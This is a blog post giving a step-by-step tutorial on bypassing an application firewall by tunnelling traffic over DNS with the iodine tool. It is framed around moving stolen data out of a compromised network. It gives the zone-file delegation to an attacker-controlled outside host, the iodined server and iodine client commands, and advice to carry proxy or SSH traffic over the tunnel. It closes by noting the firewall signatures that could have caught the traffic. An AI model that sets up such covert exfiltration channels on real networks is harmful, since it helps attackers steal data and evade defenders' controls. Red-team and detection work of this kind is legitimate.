 ```yaml
---
layout: post
title:  "Application Firewall Bypass over DNS (iodine)"
date:   2020-08-03 10:43:25 -0400
categories: exfiltration 
tags: app-id
---
```

<p>
Sometimes the adversary is behind a security stack and needs to bypass that stack for one reason or another. Also once an environment has been compromised and the adversary finds some desirable data, the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be). 
</p>


<p>
Often times DNS to any name server is still permitted. This is typically because of lack of awareness, and fear that without DNS the entire environment feels down to the users. In many networks with captive portals (airports, hotels, etc) DNS is permitted prior to signing in. This means that if you could make the requests actually look like DNS you should be able to bypass other controls.
</p>

<p>
Iodine is a pretty old, yet stable, tool that allows you to tunnel traffic inside DNS requests. I've found that the client and server run very easily on linux, and much less so on Mac and Windows so be prepared for that.
</p>

<p>
You will require a publicly accessible domain under your control and another system on the outside of the security stack.
</p>


<h3>Step 1 - Configure the Domain</h3>

<p>
This needs to be done before you get stuck behind a security stack. So before you get there make sure to have a stable host online that also permits port 53 ingress. You also need to setup a subdomain on a domain you control.
</p>

<p>
We will be leveraging the DNS in this container, <a href="https://github.com/freshdemo/mailanddns" target="_blank">https://github.com/freshdemo/mailanddns</a>.
</p>

<p>
The zone file will need to be edited to add a sub-domain which is delegated to the public IP address of your iodine server. Keep in mind that example.com is not publicly available so you would need to have your laptop pointed to the public IP of this docker container for this to work, which is why you would want a publicly routable domain outside of a proof of concept. The IP address for t1ns is the IP address of a host instantiated in Azure for this testing.
</p>
<br>
<br>
<code>
editing forward.example.com

t1      IN      NS      t1ns.example.com.
t1ns    IN      A       52.156.0.169
</code>

<p>
Don't forget to restart BIND.
</p>
<br>
<br>
<code>
/etc/init.d/bind9 restart
</code>

<p>
You can validate the DNS is setup correctly by ensuring that the delegation resolves correctly.
</p>
<br>
<br>
<code>
dig t1ns.example.com +short
52.156.0.169
</code>

<h3>Step 2 - Start the Server</h3>

<p>
From the server that will run iodine (in this case 52.156.0.169) start the iodine server. The address 172.16.25.1 is used as a point to point interface with your client, so this must be in a different subnet as the client and server.
</p>
<br>
<br>
<code>
iodined -f 172.16.25.1 -P boom t1.example.com
</code>

<p>
If all went well you should see something like this.
</p>

<img src="/images/appid-evasion-iodineserver.png">


<h3>Step 3 - Start the Client</h3>

<p>
From the client system behind the security stack start iodine to connect to the iodine server.
</p>
<br>
<br>
<code>
iodine -f 52.156.0.169 -P boom t1.example.com
</code>

<p>
You should see messages that look like the following, indicating that the tunnel interface has been brought up.
</p>

<img src="/images/appid-evasion-iodineclient.png">

<p>
At this point you should be able to ping the server (172.16.25.1) at the other side of the tunnel.
</p>

<img src="/images/appid-evasion-iodineping.png">

<h3>Step 4 - Use the Tunnel</h3>

<p>
With this current point to point tunnel established over DNS you would now want to proxy your client traffic over the tunnel. This could be accomplished by configuring a web proxy at the server side.
</p>

<p>
For additional security without the requirement to setup more software you could use an SSH tunnel where the address in this case would be 172.16.25.1, <a href="http://127.0.0.1:4000/exfiltration/2020/07/28/appid-evasion-sshtunnel.html" target="_blank">http://127.0.0.1:4000/exfiltration/2020/07/28/appid-evasion-sshtunnel.html</a>
<p>

<h3>Step 5 - View the Results</h3>


<p>
Looking at the following NGFW log we can see that the NGFW permitted the session. That being said there were three opportunities so far that it could have prevented this traffic; The application was identified as tcp-over-dns where all you would want is DNS at most, then there were two spyware signatures identified as "Yourfreedom Command and Control" and "Iodine DNS Tunnel Tool Command and Control".
</p>
<br>
<br>
<img src="/images/appid-evasion-iodinengfw.png" alt="ngfw">



